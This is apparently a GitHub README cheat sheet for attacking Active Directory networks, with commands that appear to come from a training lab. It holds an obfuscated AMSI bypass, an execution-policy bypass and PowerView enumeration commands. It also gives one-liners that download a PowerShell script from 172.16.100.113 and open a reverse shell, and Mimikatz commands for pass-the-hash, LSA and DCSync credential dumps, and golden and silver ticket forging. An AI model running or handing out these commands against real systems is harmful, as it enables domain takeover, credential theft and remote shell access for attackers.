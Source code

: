# Active-directory-small-cheatsheet
Small easy to find cheat sheet for Active directory exploitation

**Amsi bypass:-**

sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )


**Powershell Execution policy Bypass:-**

`powershell -ep bypass`


**Tips**

To input the output of the first command into second command use this powershell technique


`<First command> | %{<Second command> -<argument> $_}`

%{} is an alias for ForEach-Object{}

?{} is an alias for Where-Object{}

$_ is variable


To filter out an object type we can use this technique with pipe.

`?{$_.<object> -eq '<value>’'}`


##Enumeration:-

**To find local admin access:-**

Find-LocalAdminAccess


**To get Domain sid:-**

Get-DomainSID 

Arguments -Domain “domain name”


**To get DC:-**

Get-NetDomainController

Arguments -Domain “domain name”



**To get users in current domain:-**

Get-NetUser

Arguments  -UserName “username”




**To get user properties:-**

Get-UserProperty

Arguments -Properties pwdlastset



**Search for a particular string in a user's attributes:-**

Find-UserField -SearchField Description -SearchTerm ”built”


**To Get all computers:-**

Get-NetComputer -FullData

Many arguments -OperatingSystem -Ping -FullData


**To get groups:-**

Get-NetGroup

Arguments -FullData -Domain


**To get members of a particular group:-**

Get-NetGroupMember -GroupName "Domain Admins"


**To Group Policies**

Get-NetGPO
Get-NetGPO -ComputerName <Name of the PC>
Get-NetGPOGroup

**To Get users that are part of a Machine's local Admin group**
Find-GPOComputerAdmin -ComputerName <ComputerName>



**To get OUs:**

Get-NetOU -FullData 
Get-NetGPO -GPOname <The GUID of the GPO>



**Mapping forest:-**

Get-NetForest -Verbose

Get-NetForestDomain -Verbose



**Mapping trust:-**

Get-NetDomainTrust
 
Arguments -Domain

Get-NetForestDomain -Verbose | Get-NetDomainTrust




**Finding Constrained Delegation:-**

Get-DomainUser -TrustedToAuth (Poweview Dev.)


**Finding UnConstrained Delegation:-**

Get-NetComputer -UnConstrained



**To get ACLs**

Get-ObjectAcl -SamAccountName <AccountName> -ResolveGUIDs
Get-ObjectAcl -ADSprefix 'CN=Administrator, CN=Users' -Verbose

**To Search for interesting ACEs**

Invoke-ACLScanner -ResolveGUIDs




##Command Execution techniques for reverse shells.

`powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.113/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.X -Port 443`

`powershell.exe iex (iwr http://172.16.100.113/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.113 -Port 443`



##Mimikatz

**Make ntlm ps-session:-**

Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'



**Dump creds:-**

`Invoke-Mimikatz

Invoke-Mimikatz -Command ‘“lsadump::lsa /patch”’

Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

(dcsync requires 3 permission )`


#Tickets

**Inject ticket:-**

`Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'`

**Export Tickets:-**

`Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'`

**Golden tkt**

`Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DomainName> /sid:<Domain's SID> /krbtgt:<krbtgt hash>   id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'`

**Silver tkt**

`Invoke-Mimikatz -Command '"kerberos::golden /domain:<DomainName> /sid:<DomainSID> /target:<target> /service:<ServiceType> /rc4:<rc4 NTLM Hash of user> /user:<UserToImpersonate> /ptt"'`

**TGT tkt**

kekeo.exe 
`tgt::ask /user:<user name> /domain:<domain name> /rc4:<rc4 NTLM Hash of user>`

Here the rc4 hash is for the user who is allowed to delegate.

**TGS tkt**

Kekeo.exe

`tgs::s4u /tgt:tgt_ticket.kirbi /user:<user>@<domain> /service:<service name>/<server name>`







